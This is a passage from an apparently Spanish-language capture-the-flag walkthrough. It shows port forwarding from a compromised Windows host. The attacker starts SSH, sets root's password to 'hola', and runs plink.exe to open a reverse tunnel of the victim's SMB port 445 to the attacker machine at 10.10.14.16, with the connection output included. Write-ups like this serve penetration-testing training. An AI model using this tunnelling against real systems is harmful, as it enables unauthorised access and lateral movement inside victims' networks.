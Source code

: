 ```bash
❯ service ssh start
❯ service ssh restart
❯ netstat -nat | grep "445"
```

Por útlimo, cambiamos la contraseña del usuario **root** por una más fácil (para este caso será *hola*). Ahora si, ejecutamos el programa en la máquina víctima:

```bash
❯ passwd
Nueva contraseña: 
Vuelva a escribir la nueva contraseña: 
passwd: contraseña actualizada correctamente
```

```bash
plink.exe -l root -pw hola -R 445:127.0.0.1:445 -P 2222 10.10.14.16                                                         [4/4]
plink.exe -l root -pw hola -R 445:127.0.0.1:445 -P 2222 10.10.14.16
The server's host key is not cached. You have no guarantee
that the server is the computer you think it is.
The server's ssh-ed25519 key fingerprint is:         
ssh-ed25519 255 SHA256:NCwkGzWJ47qJZj30RdSxdkzOTenMrn4+fRsdijaL5GQ
If you trust this host, enter "y" to add the key to       
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.                                                     
y                                                               
Using username "root".                                          
-e                                                              
 ____                      _     ____            
|  _ \ __ _ _ __ _ __ ___ | |_  / ___|  ___  ___  
| |_) / _` | '__| '__/ _ \| __| \___ \ / _ \/ __|
|  __/ (_| | |  | | | (_) | |_   ___) |  __/ (__ 
|_|   \__,_|_|  |_|  \___/ \__| |____/ \___|\___| 
                                                  
                                                                                                                                 
Distro version:                                                                                                                  
Kernel Version: Linux 5.10.0-8parrot1-amd64 x86_64
-e 
The programs included with the Parrot GNU/Linux are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
                                                                
Parrot GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.                                    
                                                                
 ____                      _     ____            
|  _ \ __ _ _ __ _ __ ___ | |_  / ___|  ___  ___  
| |_) / _` | '__| '__/ _ \| __| \___ \ / _ \/ __|
|  __/ (_| | |  | | | (_) | |_   ___) |  __/ (__ 
|_|   \__,_|_|  |_|  \___/ \__| |____/ \___|\___|
                                                                                                                                 
                                                                                                                                 
                                                                

The programs included with the Parrot GNU/Linux are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Parrot GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 20 17:46:00 2021 from 10.10.10.15
```